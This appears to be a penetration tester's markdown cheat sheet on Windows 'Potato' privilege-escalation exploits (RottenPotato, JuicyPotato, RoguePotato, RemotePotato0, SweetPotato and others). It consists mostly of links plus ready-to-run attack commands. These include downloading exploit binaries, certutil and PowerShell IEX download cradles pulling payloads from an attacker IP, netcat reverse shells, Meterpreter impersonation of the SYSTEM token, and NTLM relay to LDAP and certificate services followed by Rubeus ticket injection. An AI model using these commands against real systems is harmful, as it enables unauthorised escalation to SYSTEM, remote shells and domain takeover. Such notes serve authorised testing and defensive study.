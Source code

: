 # Potatoes

- [https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html](https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html)




## RottenPotato

- [https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)
- [https://github.com/foxglovesec/RottenPotato](https://github.com/foxglovesec/RottenPotato)

```
$ curl -L https://github.com/foxglovesec/RottenPotato/raw/master/rottenpotato.exe > r.exe
meterpreter > upload r.exe
meterpreter > load incognito
meterpreter > execute -cH -f r.exe
meterpreter > list_tokens -u
meterpreter > impersonate_token "NT AUTHORITY\\SYSTEM"
```




## LonelyPotato

- [https://decoder.cloud/2017/12/23/the-lonely-potato/](https://decoder.cloud/2017/12/23/the-lonely-potato/)
- [https://github.com/decoder-it/lonelypotato](https://github.com/decoder-it/lonelypotato)




## JuicyPotato

- [https://ohpe.it/juicy-potato/](https://ohpe.it/juicy-potato/)
- [https://ohpe.it/juicy-potato/CLSID/](https://ohpe.it/juicy-potato/CLSID/)
- [https://github.com/ohpe/juicy-potato/releases](https://github.com/ohpe/juicy-potato/releases)
- [https://github.com/ivanitlearning/Juicy-Potato-x86/releases](https://github.com/ivanitlearning/Juicy-Potato-x86/releases)

```
$ curl -L https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe > j.exe
...Using pwsh reverse shell...
$ curl -L https://github.com/samratashok/nishang/raw/master/Shells/Invoke-PowerShellTcpOneLine.ps1 > rev.ps1
Cmd > certutil -urlcache -split -f http://10.10.13.37/j.exe C:\Windows\System32\spool\drivers\color\j.exe
Cmd > echo cmd /c powershell -exec bypass -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://10.10.13.37/rev.ps1')" > rev.bat
Cmd > .\j.exe -t * -c {8BC3F05E-D86B-11D0-A075-00C04FB68820} -l 1337 -p C:\Windows\System32\spool\drivers\color\rev.bat
...Using nc.exe...
Cmd > .\j.exe -t * -c {8BC3F05E-D86B-11D0-A075-00C04FB68820} -l 1337 -p C:\Windows\System32\spool\drivers\color\nc.exe "10.10.13.37 1337 -e cmd"
```




## RoguePotato

- [https://decoder.cloud/2020/05/11/no-more-juicypotato-old-story-welcome-roguepotato/](https://decoder.cloud/2020/05/11/no-more-juicypotato-old-story-welcome-roguepotato/)
- [https://github.com/antonioCoco/RoguePotato/releases](https://github.com/antonioCoco/RoguePotato/releases)

Redirect traffic that comes to 135 port on Attacker (`10.10.13.37`) with `socat` back to the Victim (`192.168.1.11`) on port 9999 (RogueOxidResolver is running locally on port 9999 on Victim):

```
$ sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:192.168.1.11:9999
```

Trigger the potato to run a binary with high privileges (don't forget to start a listener if sending a reverse shell):

```
Cmd > .\RoguePotato.exe -r 10.10.13.37 -e "C:\windows\Temp\nc.exe 10.10.13.37 443 -e cmd" -l 9999
```




## RemotePotato0

- [https://www.sentinelone.com/labs/relaying-potatoes-another-unexpected-privilege-escalation-vulnerability-in-windows-rpc-protocol/](https://www.sentinelone.com/labs/relaying-potatoes-another-unexpected-privilege-escalation-vulnerability-in-windows-rpc-protocol/)
- [https://github.com/antonioCoco/RemotePotato0/releases](https://github.com/antonioCoco/RemotePotato0/releases)

Get session ID of the user to pwn:

```
Cmd > query user
Cmd > quser
```

Hashes collector (modes 2, 3):

```
$ sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:192.168.1.11:9998
Cmd > .\RemotePotato0.exe -m 2 -x 10.10.13.37 -p 9998 -s 5
```

Cross-protocol relay (modes 0, 1):

```
$ sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:192.168.1.11:9998
$ sudo ntlmrelayx.py -t ldap://192.168.1.11 --no-smb-server --no-wcf-server --no-raw-server --escalate-user snovvcrash
Cmd > .\RemotePotato0.exe -m 0 -r 10.10.13.37 -x 10.10.13.37 -p 9998 -s 5
```

[Combining](https://twitter.com/0xcsandker/status/1430111652008112131) with ESC8:

```
$ sudo ntlmrelayx.py -t http://CA01.megacorp.local/certsrv/certfnsh.asp -smb2support --no-wcf-server --adcs --template User
Cmd > .\RemotePotato0.exe -m 0 -r 10.10.13.37 -x 10.10.13.37 -p 9998 -s 5 -c "{f8842f8e-dafe-4b37-9d38-4e0714a61149}"
Cmd > .\Rubeus.exe asktgt /user:snovvcrash /domain:megacorp.local /dc:DC1.megacorp.local /certificate:<BASE64_PFX_CERT> /ptt
```




## GenericPotato

- [https://micahvandeusen.com/the-power-of-seimpersonation/](https://micahvandeusen.com/the-power-of-seimpersonation/)
- [https://github.com/micahvandeusen/GenericPotato](https://github.com/micahvandeusen/GenericPotato)




## EfsPotato

- [https://github.com/zcgonvh/EfsPotato](https://github.com/zcgonvh/EfsPotato)




## Tools



### SweetPotato

- [https://github.com/CCob/SweetPotato](https://github.com/CCob/SweetPotato)

```
Cmd > .\SweetPotato.exe -p C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -a "-w hidden -enc <BASE64_CMD>"
```



### MultiPotato

- [https://github.com/S3cur3Th1sSh1t/MultiPotato](https://github.com/S3cur3Th1sSh1t/MultiPotato)
